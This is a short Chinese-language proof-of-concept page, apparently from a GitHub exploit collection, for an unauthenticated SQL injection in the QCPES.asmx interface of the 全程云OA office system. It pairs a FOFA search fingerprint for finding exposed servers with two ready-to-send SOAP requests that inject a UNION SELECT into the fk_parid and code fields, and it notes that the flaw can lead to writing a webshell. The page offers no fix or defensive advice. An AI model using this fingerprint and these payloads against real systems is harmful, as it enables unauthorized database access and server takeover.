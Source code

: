# 全程云OA系统QCPES.asmx存在SQL注入漏洞

全程云OA QCPES.asmx 接口多个实例处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息，在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```javascript
body="images/yipeoplehover.png"
```

## poc

```javascript
POST /OA/PES/QCPES.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetCode"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetCode xmlns="http://tempuri.org/">
      <fk_parid>1' UNION ALL SELECT @@VERSION-- oCWH</fk_parid>
      <value>1</value>
    </GetCode>
  </soap:Body>
</soap:Envelope>
```

```javascript
POST /OA/PES/QCPES.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetValue"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetValue xmlns="http://tempuri.org/">
      <fk_parid>1</fk_parid>
      <code>1' UNION ALL SELECT @@VERSION-- oCWH</code>
    </GetValue>
  </soap:Body>
</soap:Envelope>
```

![image-20241106224830320](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411062248382.png)